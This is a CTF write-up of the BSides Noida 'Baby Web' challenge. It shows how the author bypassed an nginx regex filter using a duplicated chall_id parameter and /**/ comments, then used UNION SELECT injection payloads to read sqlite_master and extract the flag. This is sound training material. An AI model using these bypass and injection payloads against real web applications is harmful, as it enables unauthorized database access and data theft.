 # Baby Web

#### Category : Web
#### Points : 420 (68 solves)
#### Author : Karma

## Problem
Just a place to see list of all challs from bsides noida CTF, maybe some flag too xD
Note : Bruteforce is not required.

[Link](http://ctf.babyweb.bsidesnoida.in/)

[Sauce](https://storage.googleapis.com/noida_ctf/Web/baby_web.zip)

## Solution

Downloading the source and hosting it in a docker locally, we see that this website takes a parameter `chall_id`

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_site.png">

Looking at the `index.php` file, we see that the following sql query is being executed.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/sql_query.png">

But if we try to put an alphabet in the parameter `chall_id`, we get an error.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_error.png">

Looking at `config/ctf.conf` in the source code, there is some regex that is used to prevent alphabets and white spaces.

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/baby_web_regex.png">

To bypass this we can use two parameters so that first one is processed by nginx and second one bypasses it.

```html
GET /?chall_id=1&chall_id=a
```

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/nginx_bypass.png">

And to bypass the white space restriction we can use comments.

So instead of  `UNION SELECT`, we use `UNION/**/SELECT`

### Listing columns and tables
From opening `karma.db`(from source code) in sqlite browser, we see that it has 6 columns.

To list columns and tables, I used the following payload

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,sql/**/FROM/**/sqlite_master
```

Using this payload we get a table named `flagsss` and column named `flag`

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/getting_tables_columns.png">

Now, we can use the following query to retrieve the flag.

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,flag/**/FROM/**/flagsss
```

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/flag_query.png">

So the flag is `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`